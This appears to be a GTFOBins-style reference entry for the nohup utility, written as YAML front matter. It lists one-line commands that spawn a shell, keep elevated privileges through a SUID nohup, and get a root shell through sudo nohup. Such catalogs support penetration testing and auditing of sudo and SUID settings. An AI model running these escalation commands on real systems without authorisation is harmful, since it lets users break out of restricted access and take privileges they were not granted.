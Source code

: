 ```yaml
---
functions:
  shell:
    - code: nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  command:
    - code: |
        COMMAND='/usr/bin/id'
        nohup "$COMMAND"
        cat nohup.out
  suid:
    - code: nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
  sudo:
    - code: sudo nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
---
```

